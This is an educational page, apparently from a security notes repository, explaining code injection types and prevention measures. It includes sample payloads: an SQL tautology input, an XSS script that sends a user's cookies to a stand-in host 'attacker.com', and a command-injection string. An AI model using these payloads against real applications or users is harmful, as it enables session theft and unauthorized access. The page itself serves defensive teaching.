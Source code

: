 # Code Injection

Code Injection refers to the malicious practice of injecting unauthorized code into an application, enabling an attacker to execute unintended commands or access unauthorized data. This can occur in various forms, including SQL Injection, OS Command Injection, and Cross-Site Scripting (XSS). It typically happens when an application processes untrusted input without proper validation or encoding.

### Types of Code Injection Attacks:
#### SQL Injection (SQLi):
Occurs when an attacker can insert malicious SQL queries through input fields, which the database then executes.
```sql
Input: ' OR '1'='1
Query: SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'password';
```
#### Cross-Site Scripting (XSS):
Attackers inject malicious scripts into content that is then served to users.

```html
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>
```

#### Command Injection:
Occurs when an attacker can execute arbitrary commands on the host operating system through insufficiently secured application.

```text
; ls -al
```

#### LDAP Injection:
Attackers manipulate LDAP statements to alter the application’s pre-designed LDAP queries, potentially accessing unauthorized data.

#### XML Injection:
Attackers manipulate XML data to compromise the logic of the application and perform unauthorized actions.

### Prevention Techniques:

-  `Input Validation:`
Validate user input against a set of strict rules (whitelist), rejecting any inputs that do not conform.

- ` Output Encoding:`
Encode data when outputting it to the user to prevent malicious content from being interpreted as part of the document.

-  `Parameterized Queries:`
Use parameterized queries or prepared statements to prevent SQL injection attacks.

- `Use of Security Headers:`
Implement security headers like Content-Security-Policy to mitigate XSS attacks.

-  `Code Review and Static Analysis:`
Regularly review code to identify injection vulnerabilities and use static analysis tools to scan codebases for vulnerabilities.

- ` Least Privilege Principle:`
Restrict the permissions of applications to the minimum necessary to perform their tasks to reduce the impact of successful attacks.

